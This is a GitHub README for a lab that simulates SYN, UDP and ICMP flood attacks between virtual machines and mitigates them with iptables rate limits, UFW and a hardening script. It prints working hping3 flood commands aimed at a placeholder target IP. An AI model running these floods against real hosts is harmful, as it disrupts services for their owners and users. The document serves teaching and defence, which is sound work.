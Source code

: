 # Denial-of-Service (DoS) Attack Simulation

## Overview
This project demonstrates a **Denial-of-Service (DoS) attack simulation** in a controlled environment using Virtual Machines (VMs). The simulation includes **SYN Flood, UDP Flood, and ICMP Flood attacks** on a target VM while implementing firewall-based mitigation strategies.

⚠ **Disclaimer:** This project is for **educational and research purposes only**. Do not use these techniques on unauthorized systems. Unauthorized use may result in legal consequences.


---

## Setting Up the Environment
### **1. Virtual Machine Configuration**
- **Run 3 VMs** simultaneously:
  - **2 Attacker VMs** (Kali Linux or Ubuntu with `hping3` installed)
  - **1 Victim VM** (Ubuntu or any Linux-based OS)
- Configure network settings to allow communication between VMs.
- Install necessary tools on each VM:
  ```bash
  sudo apt update && sudo apt install hping3 ufw iptables wireshark -y
  ```

### **2. Checking Network Connectivity**
Run the following command from an attacker VM to verify connectivity with the target VM:
```bash
ping <target-ip>
```

---

## Attack Simulations
### **1. SYN Flood Attack**
```bash
sudo hping3 -S --flood -p 80 <target-ip>
```
- `-S` → Sends SYN packets.
- `--flood` → Sends packets continuously.
- `-p 80` → Targets port 80 (HTTP service).

### **2. UDP Flood Attack**
```bash
sudo hping3 --udp --flood -p 53 <target-ip>
```
- `--udp` → Sends UDP packets.
- `--flood` → Sends packets continuously.
- `-p 53` → Targets port 53 (DNS service).

### **3. ICMP (Ping) Flood Attack**
```bash
sudo hping3 --icmp --flood <target-ip>
```
- `--icmp` → Sends ICMP Echo Request packets.
- `--flood` → Sends packets continuously.

---

## Observing Attack Effects with Wireshark
Wireshark can be used to analyze the attack's impact:
1. **SYN Flood Attack:**
   - Multiple SYN packets sent to the target VM.
   - Increased CPU and memory usage.
   - Many connections stuck in `SYN_RECV` state.
2. **UDP Flood Attack:**
   - High volume of UDP packets observed.
   - Increased bandwidth consumption.
   - Empty UDP packets flooding the network.
3. **ICMP Flood Attack:**
   - Large number of ping requests from attacker.
   - High network latency and packet congestion.

---

## Mitigation Techniques
### **1. Using UFW Firewall**
```bash
sudo ufw deny from <attacker-ip>
sudo ufw enable
sudo ufw status
```
- Blocks all incoming traffic from the attacker's IP.
- Ensures firewall protection is active.

### **2. Using iptables Firewall**
```bash
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 5 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP
sudo iptables -A INPUT -p udp -m limit --limit 10/s --limit-burst 20 -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP
sudo iptables-save > /etc/iptables.rules
```
- Rate limits SYN, UDP, and ICMP floods.
- Drops excessive attack packets to prevent system overload.

---

## Automating Mitigation
Save the following **Bash script** as `block_attacks.sh`:
```bash
#!/bin/bash

echo "[+] Applying Firewall Rules to Prevent DoS Attacks..."

# Flush existing rules
sudo iptables -F

# Prevent SYN Flood (TCP)
sudo iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 5 -j ACCEPT
sudo iptables -A INPUT -p tcp --syn -j DROP

# Prevent UDP Flood
sudo iptables -A INPUT -p udp -m limit --limit 10/s --limit-burst 20 -j ACCEPT
sudo iptables -A INPUT -p udp -j DROP

# Prevent ICMP Flood (Ping)
sudo iptables -A INPUT -p icmp --icmp-type echo-request -m limit --limit 1/s --limit-burst 3 -j ACCEPT
sudo iptables -A INPUT -p icmp --icmp-type echo-request -j DROP

# Save rules
sudo iptables-save > /etc/iptables.rules

echo "[+] Firewall rules applied successfully!"
```
To execute the script:
```bash
chmod +x block_attacks.sh
sudo ./block_attacks.sh
```

To make the rules persistent after a reboot, install the persistence package:
```bash
sudo apt install iptables-persistent
sudo systemctl enable netfilter-persistent
```

---

## **Results: Before & After Mitigation**
| Attack Type | Before Mitigation | After Mitigation |
|------------|------------------|-----------------|
| SYN Flood | High CPU Usage, Many SYN_RECV States | Limited Connections, No Overload |
| UDP Flood | High Bandwidth Consumption | Rate-Limited Traffic |
| ICMP Flood | Increased Latency | Reduced ICMP Requests |

---

## **Additional Security Measures**
- **Install Fail2Ban** to detect and block malicious IPs:
  ```bash
  sudo apt install fail2ban -y
  sudo systemctl start fail2ban
  sudo systemctl enable fail2ban
  ```
- **Use Cloud-Based DDoS Protection** (e.g., Cloudflare, AWS Shield, etc.).
- **Implement an Intrusion Detection System (IDS)** such as **Snort or Suricata**.

---

## **Conclusion**
This project demonstrates the impact of **DoS attacks** and how to mitigate them using **firewall rules and automation scripts**. Implementing **IDS, IP tracking, and cloud security solutions** further enhances protection against network attacks.

---

## **References**
- [hping3 Documentation](http://www.hping.org/)
- [Wireshark Network Analysis](https://www.wireshark.org/)
- [Linux iptables Firewall](https://linux.die.net/man/8/iptables)
- [UFW Firewall Guide](https://help.ubuntu.com/community/UFW)

